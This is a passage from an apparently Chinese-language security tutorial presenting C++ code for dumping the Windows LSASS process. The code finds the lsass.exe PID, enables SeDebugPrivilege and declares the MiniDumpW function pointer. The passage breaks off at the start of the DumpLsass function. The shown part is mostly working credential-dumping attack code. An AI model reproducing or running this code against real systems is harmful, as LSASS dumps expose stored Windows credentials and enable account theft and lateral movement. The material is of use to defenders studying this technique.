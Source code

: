 再配合上获取lsass进程pid和dump 进程后完整代码就是

```c
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include <iostream>
using namespace std;
typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

int GetLsassPid() {

    PROCESSENTRY32 entry;
    entry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(hSnapshot, &entry)) {
        while (Process32Next(hSnapshot, &entry)) {
            if (wcscmp(entry.szExeFile, L"lsass.exe") == 0) {
                return entry.th32ProcessID;
            }
        }
    }

    CloseHandle(hSnapshot);
    return 0;
}
void getPrivilege()
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tkp;

    // 打开当前进程的访问令牌
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
    {
        // 获取 SeDebugPrivilege 权限的本地权限 ID
        if (LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tkp.Privileges[0].Luid))
        {
            tkp.PrivilegeCount = 1;
            tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
            // 提升当前进程的 SeDebugPrivilege 权限
            if (AdjustTokenPrivileges(hToken, FALSE, &tkp, 0, NULL, NULL))
            {
                cout << "Token privileges adjusted successfully" << endl;

                // 关闭访问令牌句柄
                CloseHandle(hToken);
            }
            else {
                cout << "AdjustTokenPrivileges faile" << endl;
            }
        }
        else {
            cout << "LookupPrivilegeValue faile" << endl;
        }
    }
    else {
        cout << "OpenProcessToken faile" << endl;
    }

}
void DumpLsass()
{
```